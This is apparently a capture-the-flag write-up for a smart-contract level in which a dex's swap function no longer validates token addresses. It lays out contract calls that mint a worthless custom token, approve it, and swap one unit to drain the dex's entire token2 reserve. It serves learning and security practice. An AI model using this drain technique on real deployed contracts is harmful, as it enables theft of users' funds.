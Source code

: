 # Logic

We can see that now in the `swap` function th condition on the `from` and `to` field was removed, so now we can swap between any tokens.

# Solution

To empty one pool we can use the steps on the first **dex** challenge, see `22. Dex` solution

After we drain a token (if you followed the steps that I did, `token1` balance is empty now in the contract), we can drain the second one.

We deployed a new token, you can see the code at `SwappableTokenTwo.sol`. We added an external `mint` function to mint for ourself and also for the **dex**!!! We could mint for ourself from the constructor, but that will not apply for the dex

So after the deploy, call the `mint` function:
```
mint(<dex_address>, 1);
```

We mint only one token to the dex, to make our job easier on the next calculation. Also, do not forget to mint to your address :) 
```
mint(<my_address>, 1)
```

You will need to approve the contract to move the new funds:
```
approve(<dex_address>, <amount>) // in our case 1
```

And now let's calculate the output amount for the new pair -> Token2 and OurToken.
```
await contract.getSwapAmount(<our_token_address>, await contract.token2(), 1)
```
We can see that the returned value is `90`, the exact amount of the reserve, so by running swap with the same params we will extract all the tokens:

```
await contract.swap(<out_token_address>, await contract.token2(), 1)
```







